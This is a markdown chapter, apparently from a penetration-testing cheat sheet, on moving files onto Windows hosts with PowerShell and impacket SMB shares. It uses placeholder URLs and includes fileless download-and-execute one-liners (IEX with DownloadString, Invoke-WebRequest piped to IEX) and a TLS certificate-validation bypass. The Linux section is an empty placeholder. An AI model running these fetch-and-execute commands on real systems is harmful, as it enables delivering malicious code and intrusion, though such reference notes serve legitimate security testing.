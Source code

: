 # 📁 File Transfers

In the profane rites of assessment, the movement of relics—scripts, payloads, and binaries—is both necessary and perilous. This chapter reveals methods for casting files across dimensions, utilizing primitive yet persistent protocols shared among ancient systems both Windows and Linux.

> *"No summoning may begin until the runes are in place."*

---

<details>
  <summary><strong>Windows</strong></summary>

---

  <details>
    <summary><strong>PowerShell DownloadFile Method</strong></summary>

  Sync  
  ```powershell
  (New-Object Net.WebClient).DownloadFile('<FILE URL>','<OUTPUT FILE>')
  ```

  Async  
  ```powershell
  (New-Object Net.WebClient).DownloadFileAsync('<FILE URL>','<OUTPUT FILE>')
  ```
  </details>

  <details>
    <summary><strong>PowerShell DownloadString - Fileless Method</strong></summary>

  Base  
  ```powershell
  IEX (New-Object Net.WebClient).DownloadString('<FILE URL>')
  ```

  Pipeline input  
  ```powershell
  (New-Object Net.WebClient).DownloadString('<FILE URL>') | IEX
  ```
  </details>

  <details>
    <summary><strong>PowerShell Invoke-WebRequest</strong></summary>

  Base  
  ```powershell
  Invoke-WebRequest <FILE URL> -OutFile <OUTPUT FILE>
  ```

  ByPass Internet Explorer Error  
  ```powershell
  Invoke-WebRequest <FILE URL> -UseBasicParsing | IEX
  ```

  ByPass SSL/TLS Error  
  ```powershell
  [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
  # Command to download the file
  ```

  </details>

  <details>
    <summary><strong>SMB Downloads</strong></summary>

  **Base form**
  
  Create the SMB Server in Linux
  ```bash
  sudo impacket-smbserver share -smb2support /tmp/smbshare
  ```
  Download using CMD in Windows
  ```cmd
  copy \\<IP>\share\<FILE>
  ```
  
  **Using credentialts**

  Create the SMB Server in Linux
  ```bash
  sudo impacket-smbserver share -smb2support /tmp/smbshare -user <USER> -password <PASSWORD>
  ```
  Mount the SMB Server in Linux
  ```cmd
  net use n: \\<IP>\share /user:<USER> <PASSWORD>
  copy n:\<FILE>
  ```

  </details>

---
</details>

---

<details>
  <summary><strong>Linux</strong></summary>

---

  <details>
    <summary><strong>TITLE</strong></summary>

    Contenido del subtema Linux.
  </details>

---
</details>
